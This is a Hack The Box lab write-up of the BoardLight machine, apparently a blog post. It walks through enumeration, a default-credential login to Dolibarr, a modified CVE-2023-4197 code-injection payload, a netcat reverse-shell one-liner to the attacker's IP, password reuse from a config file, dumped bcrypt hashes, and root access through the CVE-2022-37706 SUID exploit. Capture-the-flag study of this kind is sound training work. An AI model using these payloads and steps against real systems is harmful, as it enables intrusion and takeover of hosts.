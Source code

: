 ```yaml
---
title: HTB-Boardlight
draft: false
tags:
  - htb
  - linux
  - easy
  - vhost
  - dolibarr
  - enlightment
  - suid
---
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/boardlight/BoardLight.png)

## Information Gathering
### Rustscan

Rustscan find SSH and HTTP running on target:

`rustscan --addresses 10.10.11.11 --range 1-65535`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/boardlight/image-1.png)

## Enumeration
### HTTP - TCP 80

The website shows nothing special:

>  BoardLight is a cybersecurity consulting firm specializing in providing cutting-edge security solutions to protect your business from cyber threats 

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/boardlight/bl1.png)

At the bottom of the page, there's domain **board.htb** found, which we add to `/etc/hosts`:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/boardlight/image-2.png)

Reading the source code, we can see there's a commented out part with: **portfolio.php**

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/boardlight/image-3.png)

However, nothing shows up when trying to access it:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/boardlight/image-4.png)

Let's see if there's other subdomains using gobuster:

`sudo gobuster vhost --append-domain -u http://board.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/boardlight/image-7.png)

**crm.board.htb** is found. 

Let's add it to `/etc/hosts` as well. 

### crm.board.htb

The website is running on **Dolibarr 17.0.0** and shows a login portal:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/boardlight/image-5.png)


Clicking on **Password Forgotten** will lead us to password regeneration page:

`http://crm.board.htb/user/passwordforgotten.php`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/boardlight/image.png)


Attempting some default credentials on login portal, **admin**:**admin** lets us bypass the portal:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/boardlight/image-8.png)

Now that we are authenticated, let's see what can be done from here. 

Searching for the exploit relevant to the version, it seems like there are couple of them:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/boardlight/image-6.png)


## Shell as www-data
### CVE-2023-4197

Let's try exploiting [CVE-2023-4197](https://nvd.nist.gov/vuln/detail/CVE-2023-4197):

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/boardlight/image-9.png)

Using the [exploit code](https://starlabs.sg/advisories/23/23-4197/), let's see if we can successfully execute commands remotely:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/boardlight/image-10.png)

Hmm, it seems like there's an minor error with the code execution part.


Let's make change to the exploit code to  ensure that full PHP tags `<?php ... ?>` are used instead of short tags `<? ... ?>`, which may not be enabled on all servers.

Below is the code before modification:

```php
"htmlheader": f"<? echo system('{cmd}'); ?>"
```

Below is the code after modification:

```php
"htmlheader": f"<?php echo system('{cmd}'); ?>"
```


After modifying the code, we can now successfully execute commands:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/boardlight/image-11.png)

### Reverse Shell

Using the following payload, we will be able to spawn a reverse shell on netcat listener:

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.29 1337 >/tmp/f`

We now have a shell as **www-data**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/boardlight/image-12.png)

Let's first enhance the shell using Python:

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/boardlight/image-13.png)

## Privesc: www-data to larissa
### Local Enumeration

In order to fetch user flag, we would need to escalate our privilege to **larissa**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/boardlight/image-21.png)

Enumerating around, it seems like there could be some juicy information inside below config files:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/boardlight/image-18.png)

Inside **conf.php**, SQL credentials are found:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/boardlight/image-19.png)

Let's try reusing the password above on SSH.

Luckily, we **larissa** was using the same password for mysql and we now have SSH connection:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/boardlight/image-20.png)

## Privesc: Larissa to root
### Local Enumeration

Let's see what ports are open internally:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/boardlight/image-23.png)

MySQL(3306) seems to be open. 

Let's access it using the credentials found earlier:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/boardlight/image-22.png)

**dolibarr** database seems interesting:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/boardlight/image-24.png)

From **llx_user** table, we can obtain password hashes:

`select * from llx_user;`

| login    | pass_crypted                                                 | lastname   |
|----------|--------------------------------------------------------------|------------|
| dolibarr | $2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm | SuperAdmin |
| admin    | $2y$10$gIEKOl7VZnr5KLbBDzGbL.YuJxwz5Sdl5ji3SEuiUSlULgAhhjH96 | admin      |

Unfortunately, discovered hashes were uncrackable.

### CVE-2022-37706

Let's take a look at SUID files:

`find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/boardlight/image-25.png)

There are couple of SUID files that starts with **enlightment**, which we've never seen before:

Googling a bit on this, it seems like we would be able to exploit this SUID using **CVE-2022-37706**.

Using the exploit downloaded from [here](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit), we can easily get a shell as the root:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/boardlight/image-26.png)

## References
- https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit
- https://starlabs.sg/advisories/23/23-4197/